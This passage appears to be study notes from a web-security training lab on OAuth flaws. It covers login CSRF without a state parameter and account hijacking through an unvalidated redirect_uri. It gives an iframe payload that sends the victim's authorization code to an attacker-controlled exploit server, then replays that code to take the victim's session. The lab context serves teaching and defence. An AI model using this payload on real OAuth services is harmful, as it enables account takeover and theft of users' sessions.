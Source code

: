 > Note: if the site allows users to log in exclusively via OAuth, the state parameter is arguably less critical. However, not using a state parameter can still allow attackers to construct login CSRF attacks, whereby the user is tricked into logging in to the attacker's account.

### Leaking authorization codes and access tokens (stealing code or access_token of other users)
#### Lab: OAuth account hijacking via redirect_uri
For this attack to be possible we need OAuth service to not validate `redirect_uri`

e.g.: The start of OAuth:
```
GET /auth?client_id=lcco8byen9ljlmx92n4fg&redirect_uri=https://lab.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email
```
After that we provide credentials and confirm scope. OAuth service stores `_session` cookie for us (so that we don't have to type login/pass and don't have to confirm scope again in the future if we hit `/auth?client_id-...` endpoint again in the future) and we're redirected to the url that was specified as `redirect_uri` with the code as a url param:
```
GET /oauth-callback?code=RlG7wZK0-sgn3_r2OMyitW7ab66P8KPD-gkzkdTvwi4
```
We can craft the following exploit:
```
<iframe src="https://oauth-0ad80044034fed6c80df5124028e0050.oauth-server.net/auth?client_id=cwdqr3bzru814gsihbp9f&redirect_uri=https://exploit-0a61005d0306ed2d80f1520a0175009b.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```
Notice that we changed `redirect_uri` to our own server that we can control.
Now we need to deliver that exploit to the victim.
After victim clicks on it, browser will make a request to the OAuth service provider together with `_session` cookie for that OAuth service.
OAuth service will see that the `_session` cookie is already there therefore it will not ask to provide login, password and will not ask to confirm scope. And if OAuth server is misconfigured in a way that it doesn't check `redirect_uri` then it will make a request to whatever was specified in `redirect_uri` (in our exploit we specified the server that we control) and OAuth will also attach `code` of the victim as a url param in the call to our own server.
For example:
```
GET /oauth-callback?code=RlG7wZK0-sgn3_r2OMyitW7ab66P8KPD-gkzkdTvwi4
```
Where `code` is the code that is issued by OAuth for the victim (so that later it could be exchanged for an access token).
We can then check the logs of our server and see the victim's OAuth `code`.

The callback endpoint:
```
GET /oauth-callback?code=RlG7wZK0-sgn3_r2OMyitW7ab66P8KPD-gkzkdTvwi4
```
actually stores that code on the backend and gives us back user `session` cookie (note this is not the same as `_session` cookie that we have with OAuth service).

So we don't need to go through OAuth flow but only need to call that last endpoint with the `code` that we stole from victim:
```
GET /oauth-callback?code=RlG7wZK0-sgn3_r2OMyitW7ab66P8KPD-gkzkdTvwi4
```
And we'll get victim's `session` cookie and will be able to log in as them.
